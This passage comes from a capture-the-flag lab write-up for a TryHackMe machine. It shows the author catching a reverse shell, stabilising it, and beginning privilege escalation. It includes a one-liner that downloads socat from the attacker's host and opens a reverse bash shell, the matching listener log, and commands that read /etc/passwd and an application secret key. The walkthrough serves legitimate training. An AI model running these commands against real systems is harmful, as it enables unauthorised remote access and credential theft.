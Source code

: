 ```shell
www-data@incognito:/$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:19:48(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                
2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing
2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444
                                                                 2023/01/24 13:21:16 socat[74118] N accepting connection from AF=2 10.10.115.32:54844 on AF=2 10.9.0.253:4444
                                                                  2023/01/24 13:21:16 socat[74118] N starting data transfer loop with FDs [5,5] and [7,7]
                                              www-data@incognito:/$ 
www-data@incognito:/$ export TERM=xterm-256color
www-data@incognito:/$ stty rows 22 columns 107
www-data@incognito:/$ ^C
www-data@incognito:/$ 
```

## Privilege Escalation

### www-data to dev2

Let's do some basic enumerations!

**System users:**
```shell
www-data@incognito:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
dev1:x:1001:1001::/home/dev1:/bin/bash
dev2:x:1000:1000:cirius:/home/dev2:/bin/bash
www-data@incognito:/$ ls -lah /home
total 16K
drwxr-xr-x  4 root root 4.0K Mar  1  2021 .
drwxr-xr-x 24 root root 4.0K Aug 11  2021 ..
drwxr-x---  7 dev1 dev1 4.0K Jun 11  2021 dev1
drwxr-xr-x  6 dev2 dev2 4.0K Jun 11  2021 dev2
```

- Found 2 user: `dev1`, `dev2`

**Found secret key in `/var/www/incognito.com/`:**
```shell
www-data@incognito:/$ cat /var/www/incognito.com/incognito.wsgi 
#!/usr/bin/python3
import sys
import logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/incognito.com/incognito/")

from incognito import app as application
application.secret_key = '{Redacted}'
```
